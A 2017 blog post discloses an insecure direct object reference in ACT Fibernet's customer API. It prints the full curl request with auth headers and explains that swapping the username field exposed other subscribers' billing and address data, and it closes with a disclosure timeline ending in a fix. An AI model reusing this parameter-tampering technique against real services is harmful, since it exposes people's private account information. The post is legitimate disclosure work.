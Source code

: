 ```yaml
---
layout: post
title: "Vulnerability Report: ACT Corp"
tags:
- security
- apis
---
```


ACT, for those who don't know is one of India's most popular broadband providers.

This is a very brief and concise summary.

- ACT has a mobile application
- That allows you to login and check your plan details, data usage etc
- I've been wanting to build a command line application that lets me check the balance easily
- I tried scripting their website, but it was too much javascript.
- The mobile app uses an API to do the same
- The API happens to have really bad auth
- Got fixed almost 3 months after reporting this.

**Request**


```sh
curl https://myfibernet.actcorp.in/api/user/plandetails -H "Content-Type: application/json" -H "Authtoken: 2aee21dfb1ef77707c30f48ccc513ad60b74d1fc6a84d60ecc32323ab5941469" -H "Apiversion: 1.0" -H "Appversion: 32" -H "Devicetype: 1" -H "Deviceid: 68590327e3e0ca81" -H "Mobilenumber: 9999999999" -H "Mid: 8973808103928d98703e65c0106b7a9d4001886234afbc2d7ce6415b75f9c216" --data '{"username":"11111111"}'
```

The API responds back with the following:


```json
{
  "code": 200,
  "status": true,
  "message": "Success",
  "data": {
    "plan_details": {
      "agreement_info": {
        "agreement_no": "XXXXXXXXXX",
        "promotion_code": "",
        "package_code": "ACTESS01M",
        "package_name": "",
        "agreement_startdate": "DD/MM/YYYY",
        "expiry_date": "",
        "status": "",
        "entity_code": "[]",
        "subscription_period": "[]",
        "payterm": "[]",
        "billingcycle_code": "[]",
        "contract_type": "ISP",
        "outlets": "1",
        "service_points": "",
        "package_tenure": int,
        "due_date": ""
      },
      "product_info": {
        "product_code": "",
        "product_desc": ""
      }
    },
    "plan_usage_info": {
      "service_id": "ACTESS01M",
      "service_name": "ACTESS01M",
      "outbyteslimit": 322122547200,
      "outbytesremaining": 153400581140,
      "outbytesused": 168721966060
    },
    "bill_info": {
      "accountno": "111111112233",
      "subscribername": "NAME",
      "phonenumber": "PHONENUMBER",
      "address": {
        "line1": "YUP",
        "line2": "THESE TWO LINES WERE FILLED",
        "line3": "",
        "district": "AND THIS",
        "city": "BANGALORE",
        "state": "KARNATAKA",
        "country": "India"
      },
      "billno": "10000001111",
      "billdate": "DD/MM/2016",
      "account_period": "01/MM/2016-30/MM/2016",
      "previous_due": "",
      "current_invoice_amt": "1234",
      "total_due": "0",
      "bill_due_date": "15 Nov 2016"
    }
  }
}
```

Some of these are empty fields, and some values that I didn't understand I've replaced with `[]`.

The fun part is that the request is actually a POST and contains the following data:

`{"username":"11111111"}`

I happen to have friends who also use ACT. I [asked around for usernames][tweet], and just by changing this one parameter in the request, I could access the complete details of almost everyone else.

Almost everyone, because for certain cases, I get a valid empty response. Valid because it has the same schema, but empty because all values are empty strings. Don't know what that happens consistently only for certain accounts. (One of these was a Hyd account, the other in BLR).

If you are interested I'm working on a simple API that lets you access the ACT API to check the same details. It would ask you for an OTP the first time you login, and then cache the credentials to let you check the balance easily.

~~I've reported this to ACT as soon as I found it. Will disclose after I've given them some time!~~

**Update**: This was reported and fixed by ACT after I managed to find a contact via an investor (really!).

**Timeline**

|Date|Details|
|----|-------|
|29 Nov 2016|Vulnerability Identified|
|29 Nov 2016|Email sent to ACT, no response|
|6 Dec 2016|Email sent with partial customer details to explain scope of the issue, no response|
|8 Dec 2016|Reminder sent, no response|
|20 Jan 2017|Another reminder with a writeup sent. I also set a deadline of 29th January (2 months since first contact). Also got in touch with CERT-IN. *No response*|
|23 Jan 2017|Accidentally an investor in ACT saw my tweet and responded over twitter. Send a writeup, along with the suggestion to take down the application|
|24 Jan 2017|ACT reports issue is fixed. I test and report back as fixed the next day|
|26 Mar 2017|Report published|

However, the huge timeline involved here pretty much guarantees that if you are an ACT customer,
your data is out there in the public.

[tweet]: https://twitter.com/captn3m0/status/803579876502405120
